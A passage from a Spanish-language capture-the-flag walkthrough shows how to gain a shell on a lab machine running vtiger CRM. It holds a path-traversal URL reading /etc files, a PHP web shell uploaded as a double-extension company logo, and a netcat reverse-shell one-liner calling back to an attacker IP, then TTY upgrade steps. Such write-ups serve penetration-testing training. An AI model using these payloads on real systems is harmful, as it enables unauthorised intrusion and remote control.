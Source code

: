 ## Vuln exploit & Gaining Access {-}

### Ganando accesso desde el vtiger {-}

Si analyzamos la url

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
```

, vemos una parte que seria

```bash
https://10.10.10.7/vtigercrm
```

. Si vamos en esta url hay otro panel de session.

Copiando una vez mas las credenciales del usuario admin, podemos entrar en el dashboard de **vtiger CRM**.

Aqui la idea para ganar accesso al systema, viene de una vulnerabilidad que pasa por cambiar el logo de la compania con un fichero de doble extension.

Si vamos a "Settings > Settings > Company Details > edit", aqui vemos que podemos cargar un fichero `.jpg` para cambiar el logo de la empresa.

1. Creamos un fichero con doble extension s4vishell.php.jpg

   ```php
   <?php
       system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f");
   ?>
   ```

1. Nos ponemos en escucha por el puerto 443

   ```bash
   nc -nlvp 443
   ```

1. Uploadeamos el fichero a la web y cuando le damos a save ya hemos ganado accesso al systema.

```bash
whoami
#Output
asterisk
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
